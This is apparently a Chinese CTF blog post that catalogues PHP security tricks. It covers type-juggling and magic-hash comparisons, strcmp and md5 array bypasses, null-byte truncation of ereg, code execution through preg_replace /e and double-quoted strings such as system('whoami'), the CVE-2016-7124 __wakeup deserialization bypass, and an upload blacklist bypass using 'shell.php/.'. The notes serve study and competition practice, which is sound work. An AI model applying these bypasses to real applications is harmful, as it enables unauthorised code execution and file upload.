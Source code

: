 ```yaml
---
layout:     post
title:      "PHP 各种黑魔法"
subtitle:   ""
date:       2018-04-14 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-geek.jpg"
tags:
    - PHP
    - CTF
    - WEB
---
```


> 总结了一下关于在CTF中PHP的一些小技巧，今后会不断更新。<br>
> 虽然现在的题目很少会用到了，但知道多点总是没坏处的。


## 弱类型

```php
<?php

//输出 boolean true

$a = 0;
$b = '0asdf';
var_dump($a == $b);


//输出 boolean true

$a = 0;
$b = NULL;
var_dump($a == $b);
?>

```

## 科学记数法

```php
<?php

//输出 boolean true

$a = '0e3543';
$b = '0e1234';
var_dump($a == $b);

?>
```

## 函数
- md5()

    ```php
    <?php
    //http://xxxx?a[]=1&b[]=2

    //md5对数组类型hash的时候会返回false

    //输出 boolean true

    $a = md5($_GET['a']);
    $b = md5($_GET['b']);
    var_dump($a == $b);

    //把md5第二个参数设置为true，会将加密后字符串当成十六进制转换成字符

    //输出 'or'6�]��!r,��b

    echo md5('ffifdyop',true);

    ?>
    ```
- ereg()/eregi()截断

    ```php
    <?php

    //http://xxxx?a=abc;

    //输出 boolean false

    //http://xxxx?a=abc%00;

    //输出 boolean true

    var_dump(eregi('^[a-z]+$',$_GET[a]));

    ?>
    ```

- preg_replace()代码执行<br>

    ```php
    <?php

    //pattern里使用参数e导致代码执行

    preg_replace('/test/e','phpinfo()','test');

    ?>
    ```

- 对parse_url()参数检测的绕过<br>

![](/img/in-post/post-php-trick/parse_url1.png)
*<center>两个斜杠</center>*

![](/img/in-post/post-php-trick/parse_url2.png)
*<center>三个斜杠</center>*

`注：在path前面的"/"到达一定数量之后，parse_url会忽略参数`

- mt_srand()伪随机数
    用`php_mt_seed`即可算出种子<br>


- is_numeric()十六进制绕过

    ```php
    <?php

    var_dump(is_numeric('0xabcd'));
    //输出 boolean true

    ?>
    ```

- strcmp()绕过

    strcmp输入数组作为参数会返回`NULL`
    ```php
    <?php

    //http://xxxx?a[]=www

    $a=$_GET['a'];
    echo strcmp('aaaa',$a).'<br>';

    //输出 无（即NULL）

    if(strcmp('aaaa',$a)){
        echo 'false!';
    }else{
        echo 'success!';
    }
    //输出 success

    ?>
    ```

## 反序列化
- _wakeup()魔术方法的绕过

    利用的是`CVE-2016-7124`

    ```php
    <?php

    class test{

        public $s = 'secret';

        function __construct(){
            
        }

        function __wakeup(){
            echo 'wakeup'.'<br>';
            $this->s = '';
        }

        function __destruct(){
            echo 'destruct '.$this->s.'<br>';
            
        }
    }

    $a = new test();
    $serial = serialize($a).'<br>'; 

    //O:4:"test":1:{s:1:"s";s:6:"secret";}


    unserialize($serial);
    //输出：

    //wakeup

    //destruct 

    //可以看到反序列化先运行了__wakeup()函数

    //但是如果把反序列化中参数的个数调整到比原本类的个数高的话，即可绕过wakeup

    //即 O:4:"test":2:{s:1:"s";s:6:"secret";}

    unserialize('O:4:"test":2:{s:1:"s";s:6:"secret";}');
    //输出： 

    //destruct secret

    //没有运行wakeup


    ?>

    ```

- 双引号里的代码执行

    ```php
    <?php

    $a = "${system('whoami')}";

    ?>
    ```

## 文件上传

- shell.php/.

    上传的文件名带/.的话，php解析器自动忽略掉，从而绕过黑名单<br>